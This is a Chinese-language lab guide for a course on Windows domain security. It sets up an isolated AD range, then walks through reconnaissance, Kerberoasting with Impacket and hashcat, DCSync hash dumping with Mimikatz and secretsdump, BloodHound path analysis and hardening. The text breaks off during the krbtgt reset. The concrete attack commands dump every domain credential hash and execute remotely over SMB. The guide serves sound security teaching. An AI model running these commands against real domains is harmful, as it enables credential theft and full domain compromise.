






# 实验六：Windows 域环境渗透与提权

> 对应章节：项目六 Windows 域管理
> 实验目标：掌握域信息收集、Kerberoasting、DCSync、BloodHound 路径分析与基础加固验证的完整流程
> 预计用时：150 分钟
> 难度等级：⭐⭐⭐⭐（高级）
> 适用范围：仅限隔离、授权的教学靶场，禁止用于真实生产域环境

---

# 实验概览

## 1. 实验主线

本实验围绕一条典型的域攻击链展开。不要把它看成一堆分散的命令，而要理解成"攻击者怎样一步一步把权限做大"的完整过程：



| 阶段 | 名称 | 做什么 | 输入 | 输出 |
| :---: | --- | --- | --- | --- |
| 一 | 域信息收集 | 识别域控、枚举用户/组/策略、发现 SPN | 普通域用户凭据 | SPN 服务账户列表 |
| 二 | Kerberoasting | 请求 TGS 票据、离线破解服务账户密码 | SPN 列表 | 服务账户明文密码 |
| 三 | DCSync（Directory Synchronization，目录同步攻击） | 冒充域控复制、导出全域哈希 | 服务账户（有复制权限） | krbtgt / Administrator 哈希 |
| 四 | BloodHound 分析 | 可视化攻击路径、定位错误授权 | 域用户凭据 | 最短提权路径 |
| 五 | 加固与验证 | 修复风险、复测确认攻击链断裂 | 加固策略 | 攻击链断裂证明 |

## 2. 实验成功标准

- 能判断一台主机是不是域控，并说清楚关键端口分别在做什么
- 能用普通域用户完成域信息收集，并导出 TGS 哈希
- 能解释"弱口令 + 永不过期 + 高权限"的服务账户为什么是高危点
- 能说明 DCSync 在"同步"什么，以及拿到 `krbtgt` 哈希后的风险等级变化
- 能从防守者角度提出至少 3 条加固措施，并用复测证明加固有效

## 3. 实验边界

> 本实验涉及 Kerberoasting、DCSync、黄金票据等高风险技术。所有命令、账户和密码都只能在实验靶场中使用。实验结束后应恢复快照、重置密码或删除测试对象。

---

# 前置知识点

> 域渗透和单机提权最大的不同，在于它不是盯着一台机器，而是在看"整张身份和权限关系网"。先把下面几个概念搞清楚，后面的操作才不会变成"照猫画虎"。

## 1. Active Directory 核心逻辑结构

Active Directory（AD）管理着域里所有的用户、计算机、权限和策略。理解 AD 的层级结构是理解所有域攻击的前提。



| 组件 | 作用 | 示例 |
| --- | --- | --- |
| **森林**（Forest） | AD 的最高安全边界，共享 Schema 和全局编录 | `corp.local` 所属森林 |
| **域**（Domain） | 认证、授权与管理的基本边界 | `corp.local` |
| **组织单元**（OU，Organizational Unit） | 用于组织对象与下发组策略（GPO，Group Policy Object，组策略对象） | `OU=IT,DC=corp,DC=local` |
| **组**（Group） | 批量授权和委派 | `Domain Admins`、`Enterprise Admins` |
| **信任**（Trust） | 跨域/跨林访问的信任基础 | 双向可传递信任 |

## 2. 域控制器上的关键资产

域控不只是"一台服务器"，它是整套身份体系的中心。谁控制了域控，谁就几乎控制了整个域。

| 资产/服务 | 作用 | 失陷风险 |
| --- | --- | --- |
| `NTDS.dit`（New Technology Directory Services database，AD 核心数据库） | 存储域对象与密码相关数据 | 可导出全域账号哈希 |
| DNS（Domain Name System，域名系统） | 域名解析 | 域成员无法正常定位 DC |
| Kerberos KDC（Key Distribution Center，密钥分发中心） | 颁发 TGT 和服务票据 | 可被滥用于票据攻击 |
| LDAP（Lightweight Directory Access Protocol，轻量目录访问协议） / LDAPS（LDAP over SSL/TLS，加密 LDAP） | 目录查询 | 可被用于枚举用户、组、SPN |
| SYSVOL / NETLOGON（域控共享目录，存储登录脚本与策略文件） | 存储登录脚本与策略文件 | 可泄露脚本、口令和策略 |
| `krbtgt`（Kerberos Ticket Granting Ticket，Kerberos 票据签名服务账户） | Kerberos 票据签名账户 | 泄露后可伪造黄金票据 |

## 3. Kerberos 认证流程

Kerberos 是域环境的核心认证协议。Kerberoasting、白银票据、黄金票据本质上都是在利用这个流程里的某一环。**必须先看懂正常流程，才能理解攻击在哪个环节做了手脚。**



| 步骤  | 方向        | 内容                    | 关键点               |
| :-: | --------- | --------------------- | ----------------- |
|  ①  | 客户端 → AS（Authentication Service，认证服务） | AS_REQ（Authentication Service Request，认证服务请求；含用户名 + 时间戳） | 初始认证请求 |
|  ②  | AS → 客户端 | 返回 TGT（Ticket Granting Ticket，票据授予票据；用 krbtgt 密钥加密） | TGT 是进入 KDC 的"门票" |
|  ③  | 客户端 → TGS（Ticket Granting Service，票据授予服务） | TGS_REQ（TGS Request，票据授予服务请求；含 TGT + 目标 SPN） | 拿着 TGT 去申请服务票据 |
|  ④  | TGS → 客户端 | 返回服务票据（用服务账户密钥加密） | 票据用目标服务的密钥加密 |
|  ⑤  | 客户端 → 服务 | AP_REQ（Application Request，应用请求；含服务票据 + 认证器） | 出示票据访问服务 |
|  ⑥  | 服务 → 客户端 | AP_REP（Application Reply，应用应答） | 可选的双向认证 |

| 票据 | 含义 | 对应攻击 |
| --- | --- | --- |
| **TGT**（Ticket Granting Ticket，票据授予票据） | 证明用户已通过初始认证 | **黄金票据**：伪造 TGT，绕过 AS（Authentication Service，认证服务）阶段 |
| **服务票据** | 证明用户可访问指定服务 | **Kerberoasting**：请求并离线破解服务票据 |

> 参考资料：Microsoft Learn [Kerberos 认证概述](https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview)

## 4. Kerberos 常见攻击方式

| 攻击方式 | 基本原理 | 典型前提 | MITRE ATT&CK |
| --- | --- | --- | --- |
| **Kerberoasting** | 请求服务票据并离线破解服务账户密码 | 普通域用户、目标账户存在 SPN | T1558.003 |
| **AS-REP Roasting**（AS-REP = Authentication Service Reply，认证服务应答） | 枚举禁用预认证的账户并离线破解 | 账户未启用 Kerberos 预认证 | T1558.004 |
| **白银票据** | 获取服务账户哈希后伪造特定服务票据 | 已获服务账户密钥 | T1558.002 |
| **黄金票据** | 获取 `krbtgt` 哈希后伪造任意 TGT | 已获域级复制或域管权限 | T1558.001 |

> 参考资料：MITRE ATT&CK [Kerberoasting (T1558.003)](https://attack.mitre.org/techniques/T1558/003/)、[DCSync (T1003.006)](https://attack.mitre.org/techniques/T1003/006/)

## 5. DCSync 原理：为什么攻击者能"冒充"域控

DCSync（Directory Synchronization，目录同步攻击）的核心是滥用 Active Directory 的**合法目录复制机制**。正常情况下，多台域控之间通过 DRS（Directory Replication Service，目录复制服务）协议同步数据。攻击者只要拥有足够的复制权限，就能假装自己也是一台域控，向真正的域控请求同步——从而拿到所有账号的密码哈希。



执行 DCSync 需要以下权限之一：

- `Replicating Directory Changes`
- `Replicating Directory Changes All`
- `Domain Admins` / `Enterprise Admins` / `Administrators`

> 参考资料：adsecurity.org [Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729)

---

# 实验环境配置

> 前置知识已经理清，接下来搭建靶场环境。域环境的很多故障都能追溯到最开始的主机名、DNS 或林初始化参数没有配对，务必仔细。

## 1. 网络拓扑

| 设备 | 角色 | IP | 域名 |
| --- | --- | --- | --- |
| Windows Server 2025 | 域控制器 DC01 | 192.168.1.20 | corp.local |
| Kali Linux 2025.4 | 攻击机 | 192.168.1.10 | — |
| 网段 | NAT 网络 | 192.168.1.0/24 | — |

## 2. 角色与账户约定

| 对象 | 角色 | 用途 |
| --- | --- | --- |
| `DC01.corp.local` | 域控制器 | DNS、KDC、LDAP、AD DS |
| `CORP\Administrator` | 域管理员 | 初始化、加固与验证 |
| `CORP\zhangsan` | 普通域用户 | 域信息收集、Kerberoasting |
| `CORP\sqlsvc` | 服务账户（弱口令） | 演示弱口令服务账户风险 |
| `CORP\itadmin` | 高权限账号 | Protected Users 加固验证 |

## 3. 域控基础配置

### 3.1 安装 AD DS（Active Directory Domain Services，Active Directory 域服务）并创建林

可以使用 PowerShell 或图形界面完成。

**方式一：PowerShell 自动化**

```powershell
Rename-Computer -NewName "DC01" -Restart
```

重启后继续：

```powershell
Install-WindowsFeature AD-Domain-Services, DNS -IncludeManagementTools

$SafeModePwd = ConvertTo-SecureString "P@ssw0rd123!" -AsPlainText -Force

Install-ADDSForest `
  -DomainName "corp.local" `
  -DomainNetbiosName "CORP" `
  -InstallDNS `
  -SafeModeAdministratorPassword $SafeModePwd `
  -Force
```

**方式二：图形界面**

1. 修改主机名："服务器管理器" → "本地服务器" → 点击"计算机名" → "更改" → 输入 `DC01` → 确定并重启
2. 安装角色："服务器管理器" → "管理" → "添加角色和功能" → "基于角色的安装"
3. 勾选 `Active Directory 域服务` 和 `DNS 服务器`，遇到"添加功能"提示时选择"添加功能"
4. 一直"下一步"到"确认"页，点击"安装"
5. 安装完成后点击"将此服务器提升为域控制器"
6. "部署配置"选"添加新林"，根域名填 `corp.local`
7. "域控制器选项"保持勾选 DNS 服务器和全局编录，DSRM（Directory Services Restore Mode，目录服务还原模式）密码填 `P@ssw0rd123!`
8. 先决条件检查通过后点击"安装"，等待自动重启
9. 重启后用 `CORP\Administrator` 登录

**安装后验证**

- "服务器管理器"首页能看到 `AD DS` 和 `DNS` 角色
- "工具"菜单能打开 `Active Directory 用户和计算机`、`Active Directory 域和信任关系`、`DNS`
- 运行 `sysdm.cpl`，计算机显示已加入 `corp.local` 域

### 3.2 创建实验对象

> 口令均为靶场示例，实验后应重置或删除。

**方式一：PowerShell**

```powershell
Import-Module ActiveDirectory

New-ADOrganizationalUnit -Name "Servers" -Path "DC=corp,DC=local"
New-ADOrganizationalUnit -Name "Employees" -Path "DC=corp,DC=local"
New-ADOrganizationalUnit -Name "ServiceAccounts" -Path "DC=corp,DC=local"

$UserPwd = ConvertTo-SecureString "P@ssw0rd123" -AsPlainText -Force
$SvcPwd  = ConvertTo-SecureString "Service@2024" -AsPlainText -Force
$AdmPwd  = ConvertTo-SecureString "Admin@2024!" -AsPlainText -Force

New-ADUser -Name "zhangsan" -SamAccountName "zhangsan" `
  -UserPrincipalName "zhangsan@corp.local" `
  -AccountPassword $UserPwd -Enabled $true `
  -Path "OU=Employees,DC=corp,DC=local"

New-ADUser -Name "itadmin" -SamAccountName "itadmin" `
  -UserPrincipalName "itadmin@corp.local" `
  -AccountPassword $AdmPwd -Enabled $true `
  -Path "OU=Employees,DC=corp,DC=local"

New-ADUser -Name "sqlsvc" -SamAccountName "sqlsvc" `
  -UserPrincipalName "sqlsvc@corp.local" `
  -AccountPassword $SvcPwd -Enabled $true `
  -PasswordNeverExpires $true `
  -Path "OU=ServiceAccounts,DC=corp,DC=local"

Set-ADUser -Identity "sqlsvc" -ServicePrincipalNames @{
  Add = "MSSQLSvc/dc01.corp.local:1433"
}
```

**方式二：图形界面**

1. "工具" → `Active Directory 用户和计算机`，展开 `corp.local`
2. 新建 OU：右键域名 → "新建" → "组织单位" → 依次创建 `Servers`、`Employees`、`ServiceAccounts`
3. 在 `Employees` 中创建 `zhangsan`（密码 `P@ssw0rd123`）和 `itadmin`（密码 `Admin@2024!`）
4. 在 `ServiceAccounts` 中创建 `sqlsvc`（密码 `Service@2024`，勾选"密码永不过期"）
5. 给 `sqlsvc` 添加 SPN：右键属性 → 属性编辑器 → `servicePrincipalName` → 添加 `MSSQLSvc/dc01.corp.local:1433`

> 如果"属性编辑器"不可见，可用命令补充：`setspn -S MSSQLSvc/dc01.corp.local:1433 CORP\sqlsvc`

### 3.3 可选：准备"错误授权"场景

如需把实验链条演示得更完整，可在**隔离靶场**中给 `sqlsvc` 额外赋予目录复制权限。

> 不要把"普通用户天生就有 DCSync 权限"设成默认前提，因为这既不真实，也容易误解提权路径。

## 4. 攻击机准备

```bash
sudo tee /etc/resolv.conf >/dev/null <<'EOF'
nameserver 192.168.1.20
search corp.local
EOF

sudo apt update
sudo apt install -y crackmapexec ldap-utils hashcat bloodhound-python
```

验证 Kerberos 解析：

```bash
host dc01.corp.local 192.168.1.20
nslookup corp.local 192.168.1.20
```

---

# 实验步骤

> 五个阶段环环相扣——前一个阶段的输出就是后一个阶段的输入。

---

## 阶段一：域信息收集

**阶段目标**：在不触发告警的前提下，摸清目标域的基本结构——有哪些用户、哪些组、哪些机器、什么密码策略、哪些服务账户绑定了 SPN（Service Principal Name，服务主体名称）。

> 不做画像，后面的每一步都会像在黑屋子里乱撞。

### 步骤 1：识别域控关键端口

```bash
nmap -sV -p 53,88,135,139,389,445,464,593,636,3268,3269,3389 192.168.1.20
```

| 端口 | 服务 | 判断意义 |
| --- | --- | --- |
| `53/tcp` | DNS（Domain Name System，域名系统） | 域名解析服务 |
| `88/tcp` | Kerberos | **域控标志性端口** |
| `389/tcp` | LDAP（Lightweight Directory Access Protocol，轻量目录访问协议） | 目录查询服务 |
| `445/tcp` | SMB（Server Message Block，服务器消息块） | 文件共享 / 域认证 |
| `636/tcp` | LDAPS（LDAP over SSL/TLS，加密 LDAP） | 加密 LDAP |
| `3268/tcp` | Global Catalog | **域控标志性端口** |

> 当 `88`、`389`、`445`、`3268` 这几个端口同时出现时，可高度怀疑目标是域控。

### 步骤 2：LDAP 枚举基础信息

```bash
# 尝试匿名绑定
ldapsearch -x -H ldap://192.168.1.20 \
  -b "DC=corp,DC=local" "(objectClass=user)" sAMAccountName
```

匿名绑定被禁用时，使用普通域用户继续：

```bash
crackmapexec ldap 192.168.1.20 -d corp.local -u zhangsan -p 'P@ssw0rd123' --users
crackmapexec ldap 192.168.1.20 -d corp.local -u zhangsan -p 'P@ssw0rd123' --groups
crackmapexec ldap 192.168.1.20 -d corp.local -u zhangsan -p 'P@ssw0rd123' --computers
crackmapexec ldap 192.168.1.20 -d corp.local -u zhangsan -p 'P@ssw0rd123' --domain-info
crackmapexec ldap 192.168.1.20 -d corp.local -u zhangsan -p 'P@ssw0rd123' --password-policy
```

> 不要只盯着"命令有没有回显"，更要看回显里透露出的组织结构——哪些像普通员工、哪些像运维、哪些像服务账户。

### 步骤 3：枚举 SPN 服务账户

```bash
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py \
  corp.local/zhangsan:'P@ssw0rd123' \
  -dc-ip 192.168.1.20
```

重点观察：

- 是否存在绑定 SPN 的服务账户
- 服务账户是否启用了弱密码、永不过期
- 服务账户是否持有高权限或被错误委派

> 把域名、域控主机名、域用户、域组、密码策略、SPN 账户列表整理成表格，作为实验报告的"攻击前资产画像"。

---

## 阶段二：Kerberoasting 攻击

**阶段目标**：利用 SPN 请求服务票据（TGS），离线破解服务账户密码。

Kerberos 协议设计上允许任何已认证用户请求任意 SPN 的服务票据——这是合法行为。问题在于，TGS 票据用服务账户的 NTLM（New Technology LAN Manager，新技术局域网管理器）哈希加密，攻击者可以拿到本地慢慢破解，不会触发任何账户锁定策略。



### 步骤 4：请求服务票据并导出哈希

```bash
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py \
  corp.local/zhangsan:'P@ssw0rd123' \
  -dc-ip 192.168.1.20 \
  -request \
  -outputfile /tmp/tgs_hashes.txt
```

### 步骤 5：离线破解 TGS 哈希

```bash
# 使用 hashcat（推荐）
hashcat -m 13100 /tmp/tgs_hashes.txt /usr/share/wordlists/rockyou.txt --force

# 或使用 john
john --format=krb5tgs /tmp/tgs_hashes.txt \
  --wordlist=/usr/share/wordlists/rockyou.txt
```

示例输出：

```text
MSSQLSvc/dc01.corp.local:1433::CORP:sqlsvc:...:Service@2024
```

> 如果真的能爆出明文密码，需要立刻追问两个问题：这个账户是谁在用？这个账户到底能干什么？真正危险的从来不是"爆出一个密码"本身，而是"这个密码背后的身份边界"。

### 步骤 6：验证服务账户可用性

```bash
/usr/share/doc/python3-impacket/examples/smbexec.py \
  corp.local/sqlsvc:'Service@2024'@192.168.1.20
```

> 并不是所有被 Kerberoasting 破解出来的服务账户都能直接 DCSync。真正危险的是"弱口令 + 高权限/错误授权"这两个条件叠加。

---

## 阶段三：DCSync 导出域哈希

**阶段目标**：利用已获得的服务账户，模拟域控复制行为，导出全域密码哈希（含 `krbtgt`）。

**前置条件**：当前靶场中 `sqlsvc` 已被赋予目录复制权限（见 3.3 节）。如果没有复制权限这一步会失败——那恰恰说明最小权限的重要性。

### 步骤 7：确认复制权限前提

满足以下任一条件时，账户可以执行 DCSync：

- 属于 `Domain Admins` / `Enterprise Admins` / `Administrators`
- 被委派 `Replicating Directory Changes`
- 被委派 `Replicating Directory Changes All`

> 最容易出现的误解是把 DCSync 理解成"某个工具自带的神奇功能"。其实不是——工具只是把"目录复制"这个合法机制拿来滥用了。

### 步骤 8：使用 Mimikatz 在 Windows 靶机上执行 DCSync

```powershell
cd C:\Tools
.\mimikatz.exe
```

进入 Mimikatz 后：

```text
privilege::debug
lsadump::dcsync /domain:corp.local /user:Administrator
lsadump::dcsync /domain:corp.local /user:krbtgt
lsadump::dcsync /domain:corp.local /all /csv
```

重点关注输出中的：

- `Administrator` 的 NTLM 哈希
- `krbtgt` 的 NTLM 哈希
- 域 SID（Security Identifier，安全标识符）

> 为什么黄金票据不只需要 `krbtgt` 哈希，还经常要配合域 SID？因为 TGT 中包含域 SID（Security Identifier，安全标识符）信息，伪造时必须匹配。



### 步骤 9：使用 Impacket 远程执行 DCSync

```bash
/usr/share/doc/python3-impacket/examples/secretsdump.py \
  corp.local/sqlsvc:'Service@2024'@192.168.1.20 \
  -dc-ip 192.168.1.20 \
  -just-dc > /tmp/domain_hashes.txt
```

> 报告要求：输出内容必须脱敏，不得原样粘贴完整哈希。建议仅保留前 8 位与后 4 位做教学说明。

---

## 阶段四：BloodHound 攻击路径分析

**阶段目标**：从零散的命令行枚举结果，切换到全局化的路径分析。BloodHound 能把零散的权限关系变成一条可解释的攻击路径。

> 前面三个阶段是"一步一步试"，BloodHound 是"画出全景图"——它能回答：普通用户距离域管还差几步？是哪个节点构成了突破口？

### 步骤 10：收集 BloodHound 数据

```bash
bloodhound-python \
  -d corp.local \
  -u zhangsan \
  -p 'P@ssw0rd123' \
  -ns 192.168.1.20 \
  -c All \
  --zip
```

### 步骤 11：导入并分析

在 BloodHound 中优先执行以下查询：

1. `Find Shortest Paths to Domain Admins`
2. `Find All Domain Admins`
3. `Find Principals with DCSync Rights`
4. `Find Kerberoastable Users`
5. `Shortest Paths from Kerberoastable Users`

分析时重点回答：

- 普通域用户距离域管还差几步？
- 是哪个服务账户、组委派或 ACL（Access Control List，访问控制列表）配置构成了突破口？
- 若移除该错误授权，攻击路径会如何变化？

> 如果理解还停留在"图上有一条线"，说明分析还不够深入。要把这条线翻译成一句完整的话，例如："普通域用户因为拿到了 `sqlsvc`，而 `sqlsvc` 又被错误授予复制权限，所以最终可以 DCSync 到域级哈希。"

---

## 阶段五：域安全加固与验证

**阶段目标**：切断前面验证过的关键攻击链，用复测证明"配置改了以后，攻击确实不灵了"。

### 步骤 12：实施基础加固

#### 12.1 将高权限账户加入 Protected Users

```powershell
Add-ADGroupMember -Identity "Protected Users" -Members "Administrator","itadmin"
```

| Protected Users 效果 | 说明 |
| --- | --- |
| 禁止 NTLM（New Technology LAN Manager）认证 | 只允许 Kerberos |
| 禁止弱加密 | 不允许 DES（Data Encryption Standard）/RC4（Rivest Cipher 4） |
| 不缓存凭据 | 降低凭据泄露风险 |
| 限制委派 | 防止被滥用委派 |

> Protected Users 不是"万能安全开关"。如果环境依赖旧协议，直接启用可能带来兼容性问题，生产环境必须先评估再推广。

#### 12.2 修复服务账户风险

```powershell
$NewSvcPwd = ConvertTo-SecureString "Str0ng-Service-2026!" -AsPlainText -Force
Set-ADAccountPassword -Identity "sqlsvc" -NewPassword $NewSvcPwd -Reset
Set-ADUser -Identity "sqlsvc" -PasswordNeverExpires $false
```

如课程环境支持，建议进一步改造为组托管服务账户（gMSA，Group Managed Service Account）。

#### 12.3 修改 krbtgt 密码两次

```powershell
# 第一次重置
